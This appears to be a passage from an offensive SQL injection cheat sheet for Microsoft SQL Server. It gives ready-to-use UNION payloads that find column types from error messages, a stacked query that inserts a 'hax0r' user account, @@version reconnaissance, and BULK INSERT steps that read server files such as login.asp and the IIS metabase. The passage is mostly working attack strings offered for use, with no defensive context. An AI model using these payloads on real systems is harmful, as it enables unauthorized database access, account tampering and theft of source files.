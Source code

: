 #### Finding Column Type

- `' union select sum(**columntofind**) from **users**--` (S)

`Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [[NEWLINE]][Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument.`

*If you are not getting an error it means *column is numeric.

- Also you can use CAST() or CONVERT()
    - `SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--`
- `11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-`

No Error - Syntax is right. MS SQL Server Used. Proceeding.

- `11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-`

No Error – First column is an integer.

- `11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 -- `

Error! – Second column is not an integer.

- `11223344) UNION SELECT 1,'2',NULL,NULL WHERE 1=2 –-`

No Error – Second column is a string.

- `11223344) UNION SELECT 1,'2',3,NULL WHERE 1=2 –-`

Error! – Third column is not an integer. ...

`Microsoft OLE DB Provider for SQL Server error '80040e07' [[NEWLINE]]Explicit conversion from data type **int** to image is not allowed.`

**You'll get convert() errors before union target errors ! **So start with convert() then union

### Simple Insert (MSO+)

`'; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*`

### Useful Function / Information Gathering / Stored Procedures / Bulk SQL Injection Notes

**@@version** (MS)

Version of database and more details for SQL Server. It's a constant. You can just select it like any other column, you don't need to supply table name. Also, you can use insert, update statements or in functions.

`INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)`

#### Bulk Insert (S)

Insert a file content to a table. If you don't know internal path of web application you can **read IIS (***IIS 6 only***) metabase file**(*%systemroot%\system32\inetsrv\MetaBase.xml*) and then search in it to identify application path.

1. Create table foo( line varchar(8000) )
2. bulk insert foo from 'c:\inetpub\wwwroot\login.asp'
3. *Drop temp table, and repeat for another file.*
